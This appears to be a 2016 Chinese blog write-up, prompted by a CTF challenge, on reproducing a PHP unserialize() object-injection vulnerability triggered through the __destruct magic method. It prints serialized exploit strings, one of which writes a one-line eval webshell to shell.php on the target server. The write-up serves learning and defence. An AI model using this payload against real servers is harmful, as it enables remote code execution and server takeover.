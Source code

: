```yaml
---
title: PHP反序列化漏洞复现
tags:
  - Webshell
  - 代码执行
  - 漏洞复现
id: 241
categories:
  - 漏洞复现
date: 2016-09-16 16:12:33
---
```


## 导语

之前做华山杯的一道题里，在读取一个文件内容的时候，由于无法直接读取，看writeup里采用改了php反序列化的方式去读取了对应的文件，当时看有点懵逼，就去补了补PHP反序列化漏洞的原理和利用。
<!--more-->
## 正文

### 漏洞代码：

![](http://www.blbana.cc/wp-content/uploads/2016/09/00be3624e76e59c180034a9b97d6bc21.png)

### 漏洞利用条件：

1.程序中必须有一个PHP的魔术方法，比如_wakeup或者_destruct，我们需要利用这个方法，来进行攻击；

2.程序中含有PHP反序列化的函数unserialize()

3.exp需要能够保存在服务器中，如果目标服务器开启了allow_url_fopen，我们可以利用file_get_contents函数远程读取文件。

此时我们的代码中已经具备了以上的条件，可以进行PHP的对象注入了。

### exp内容：

O:3:"foo":2:{s:4:"file";s:9:"shell.php";s:4:"data";s:4:"aaaa";}

我们成功执行exp时，会在同一个目录下生成一个名叫shell.php的文件，并且文件内容为aaaa.

### 漏洞利用：

我们先通过上传之类的方法，将这个exp.txt上传到服务器当中，通过代码我们可以看出来，最后程序会将文件中的内容通过file_get_contents()函数读取出来，在程序执行完毕的时候，由于_destruct方法触发了代码执行。

![](http://www.blbana.cc/wp-content/uploads/2016/09/b45134209b152bb6b391675af4f0d156.png)

![](http://www.blbana.cc/wp-content/uploads/2016/09/6b7d6e308f929c8475228629bbaaac84.png)

在同级目录下生成了一个shell.php，且内容为aaaa

### 漏洞分析：

出现这个漏洞的时候我们可以利用它向目标服务器上写入shell：

O:3:"foo":2:{s:4:"file";s:9:"shell.php";s:4:"data";s:4:"&lt;?php @eval($_GET['BlBana'])?&gt;";}

通过这个exp，我们在shell.php写入的便是一句话。

需要注意的是，在字符串中，前面的数字代表的是后面字符串中字符的个数，如果数字与字符个数不匹配的话，就会报错，并向shell.php中写入初始内容“text”，我在不同版本的PHP中测试了这种错误。

![](http://www.blbana.cc/wp-content/uploads/2016/09/f92c2a37b60c3e1f6ddea06a651d126d.png)

![](http://www.blbana.cc/wp-content/uploads/2016/09/5603752e0c398cd84d258cb7d40d42dd.png)

在以上这两个版本中测试的时候，若我们序列化后的字符串不符合要求，就会抛出一个错误，并向shell.php中写入初始值。

![](http://www.blbana.cc/wp-content/uploads/2016/09/e26f3d61a7b5fb173797e0dd53a95417.png)

![](http://www.blbana.cc/wp-content/uploads/2016/09/4ae2cf91bd4b5c53eeef6d3a6d242888.png)

![](http://www.blbana.cc/wp-content/uploads/2016/09/aa2090e05aa0c0067950b7d0acf375dd.png)

但是在这个版本的PHP中，不会报错，但是依然是在shell.php中写入初始值。所以在利用的时候需要注意以上的内容。

* * *

现在分析一下漏洞的一些细节，这是因为我们通过GET传递了参数给session_filename这个参数中，导致之后的函数file_get_contents读取了exp.txt中的字符串，之后字符串被反序列化为了foo的数组对象，导致了代码执行。

![](http://www.blbana.cc/wp-content/uploads/2016/09/2747968806edf2c8fcc7e32d09b68783.png)

被反序列后产生的数组对象，相当于我们利用new foo（）生成了一个对象，但是，对象中的内容是以数组的形式存放的。

foo Object ( [file] =&gt; 2.txt [data] =&gt; text )

这是一个正常的数组对象，我们反序列后的字符串是

foo Object ( [file] =&gt; shell.php [data] =&gt; aaaa )

使得我们传入的恶意内容覆盖了原先数组初始值

O:3:"foo":2:{s:4:"file";s:9:"shell.php";s:4:"data";s:4:"aaaa";}
O:3:"foo":2:{s:4:"file";s:5:"2.txt";s:4:"data";s:4:"text";}

具体的序列化后的字符串如上所示。

我们成功的修改了变量$file和$data的值，这时候我们需要的是执行魔术方法_destruct()，这个方法的执行有以下集中方法：

1.当程序正常的执行完毕后，所有的对象被销毁了，析构函数被调用（<span style="color: #ff0000;">我们这里就是这种方法</span>）

<span style="color: #000000;">2.当对象没有指向时，对象被销毁</span>

$p = new foo();

$p = null;

此时析构函数执行

3.使用unset变量销毁指向对象的变量，<span style="color: #ff0000;">注意的是unset销毁的是指向对象的变量，而不是对象，只有指向同一个对象的所有变量都销毁的时候，析构函数才执行。</span>

也就是说当对象被销毁时，析构函数就会被调用。

## 总结

PHP的反序列化漏洞，可以导致远程代码的执行，漏洞产生后的后果也是十分严重的，因此在使用unserialize函数的时候应当注意漏洞形成所具备的条件，避免漏洞的产生。